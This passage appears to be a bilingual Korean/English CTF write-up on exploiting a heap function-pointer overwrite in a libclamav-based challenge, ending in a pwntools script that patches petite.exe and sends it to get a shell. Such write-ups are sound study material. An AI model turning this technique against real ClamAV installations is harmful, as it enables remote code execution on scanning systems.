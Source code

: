 With a `heap` command in pwndbg, I can see the allocated heap.

![image](https://user-images.githubusercontent.com/43925259/154027435-2fa5bc40-3d47-409d-9acd-ce94ff30fc55.png)

이렇게 할당되어 있는 힙들을 몇개 보다보면 함수 포인터가 여러개 보인다.

There are many function pointers in heaps.

![image](https://user-images.githubusercontent.com/43925259/154182900-dcd52736-90c9-42f4-a234-12de07bac7d2.png)

다음과 같이 cli_pcre_malloc, cli_pcre_free와 같은 이름의 함수가 힙의 여러곳에 할당된 채로 존재한다. 이 포인터를 임의 값으로 바꾸고 프로그램을 실행해보면 다음과 같이 동작한다.

There are several function pointers named cli_pcre_malloc and cli_pcre_free. The results of overwriting this pointer and running the program are as follows.

![image](https://user-images.githubusercontent.com/43925259/154028251-867d799e-4c16-4eca-863d-5ee4e606c348.png)

즉 cli_pcre_malloc 부분에 /bin/sh 문자열을, cli_pcre_free 부분에 system@plt를 삽입하면 셸을 얻을 수 있다.

하지만 문제점은 도커 내부에서 실행시킬 때와 xinetd로 프로그램을 실행할 때 힙 레이아웃이 조금씩 변하기 때문에 정확한 offset을 구하기 위해선 주어진 start.sh를 실행하여 xinetd로 프로그램을 실행시킨 뒤 attach하여 디버깅을 해야 remote 익스플로잇을 한 번에 성공시킬 수 있다.

수 많은 함수 포인터 중 하나는 탑 청크와 바로 위에 위치해서 이를 사용하기로 했다. ddst를 연산하는 `libclamav.so.9_base + 0x107efe`에 브레이크 포인트를 설정하고 그때 힙 주소와 탑 청크 바로 위의 함수 포인터의 거리를 계산해주면 된다.

다음과 같은 코드를 작성했다.

It can be solved by overwriting cli_pcre_malloc with "/bin/sh" and overwriting cli_pcre_free with system@plt.

However, the problem is that the heap layout changes slightly when running the program in the docker and xinetd. So, in order to find the correct offset, you need to run the program with xinetd using start.sh and then attach and debug to succeed the remote exploit at once.

One of the many function pointers is located directly above the top chunk, so I decided to use it. I set the breakpoint to `libclamav.so.9_base + 0x107efe` and I calculated the distance between the heap address and the function pointer.

I wrote the following code.


```python
from pwn import *

p = remote("localhost", 10000)

data = open("petite.exe").read()

original_offset = '\x74\x60\x00\x00'
binsh_offset = p32(0x180d0)

payload = ''
payload += data.replace(original_offset, binsh_offset)

p.sendlineafter(': ', '1')
p.sendlineafter(': ', str(len(payload)))
p.sendlineafter(': ', payload)
p.interactive()
```
